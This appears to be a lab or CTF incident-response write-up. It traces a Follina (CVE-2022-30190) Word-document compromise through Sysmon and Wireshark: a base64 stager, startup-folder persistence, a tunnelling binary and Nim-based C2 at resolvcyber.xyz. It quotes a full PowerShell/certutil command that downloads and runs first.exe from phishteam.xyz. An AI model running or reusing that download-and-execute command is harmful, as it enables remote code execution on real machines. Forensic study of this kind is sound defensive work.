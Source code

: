 - Filtering for ParentProcessID 496 found a base64 encoded string:

![Pasted image 20240917205356.png](/img/user/x/images/Pasted%20image%2020240917205356.png)
##### Base64 Decoding
---
The file is downloaded and written to user benimaru's startup folder, indicating persistence mechanism:
![Pasted image 20240917205643.png](/img/user/x/images/Pasted%20image%2020240917205643.png)
Since we are not analyzing with the compromised machine we can export the object using Wireshark, after opening up **update.zip** and viewing the strings it contains another request to the same domain but this time downloading `first.exe`:
- `explorer.exe` will execute the file at startup or as user logs on:

```bash
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe 
```

![Pasted image 20240917210458.png](/img/user/x/images/Pasted%20image%2020240917210458.png)
#### CVE-2022-30190
---
Based on the evidence and the attacker specifically using the `msdt.exe` as the embedded malicious code in the Word document rather than most common payloads - it made me think that at the time of exploitation `msdt.exe` must have a vulnerability.

![Pasted image 20240918212318.png](/img/user/x/images/Pasted%20image%2020240918212318.png)
- Further research suggest CVE-2022-30190 which make uses of the Microsoft Support Diagnostic Tool (MSDT) to execute malicious crafted URL payloads embedded into Word documents.
- This effectively bypass macros restriction since by default macros are disabled and no further user action needed aside from opening the document.
##### First.exe Analysis
---
Filtering for parent process `first.exe` revealed the following:

![Pasted image 20240918153112.png](/img/user/x/images/Pasted%20image%2020240918153112.png)
- A reverse proxy to access internal services hosted in the machine with a Process ID of 7388.
	- The file is flagged in VirusTotal even defenders - it is a tool use to quickly create a TCP/UDP tunnel transported via HTTP, secured by SSH effectivley bypassing firewalls.

##### C2 Server Activity
---
Filtering for Process ID 8948 which is the `first.exe` binary with Event ID 3 for network connections shows most likely the C2 of the threat actor:

![Pasted image 20240918154810.png](/img/user/x/images/Pasted%20image%2020240918154810.png)
###### WireShark Analysis
---
Using the above IP address with Wireshark filter `ip.dst_host == <IP>` shows:
- Commands receives from resolved IP address: **resolvcyber.xyz**
- **/9ab62b5** is the specific URL to get commands to be executed.
- It uses base64 encoding to receive information and **q** as the parameter.
- Based on the user agent the programming language used by the threat actor is **NIM**.
